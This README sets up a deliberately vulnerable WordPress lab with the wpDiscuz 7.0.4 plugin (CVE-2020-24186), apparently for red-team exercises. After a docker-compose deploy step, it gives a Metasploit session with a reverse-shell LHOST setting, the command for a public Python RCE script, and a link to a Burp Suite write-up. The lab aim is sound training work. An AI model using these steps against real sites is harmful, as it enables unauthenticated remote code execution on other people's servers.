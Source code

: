 # WordPress Lab

This is a WordPress Lab version 5.2.7 with a plugin vulnerables named WPdiscuz version 7.0.4 with al well know vulnerability CVE-2020-24186. The idea of this repo is to have created a web vulnerable used in Red Team labs or cyberexercises.



## Deploy web with Docker 

`docker-compose up`


## It is vulnerable? 

```curl http:/localhost:8080/wp-content/plugins/wpdiscuz/readme.txt | head -n 10```

Check de wpdiscuzz version


## Option A - with Metasploit

Web Post as sample: http://localhost:8080/2025/01/20/fake2/


```
$ msfconsole 

search CVE-2020-24186
use 0


set RHOSTS <IP HOST>
set RPORT 8080 # or a different port

set BLOGPATH /2025/01/20/fake2/

set LHOST  <IP Localhost HOST>

```


## Option B - Using a python script

We will be using this (script)[https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE/tree/main]

`python wpDiscuz_RemoteCodeExec.py -u http://<IP HOST>:8080/ -p /2025/01/20/fake2/`

## Option C - Burp Suite 

https://ine.com/blog/vulnerability-lab-wordpress-plugin-wpdiscuz-unauthenticated-rce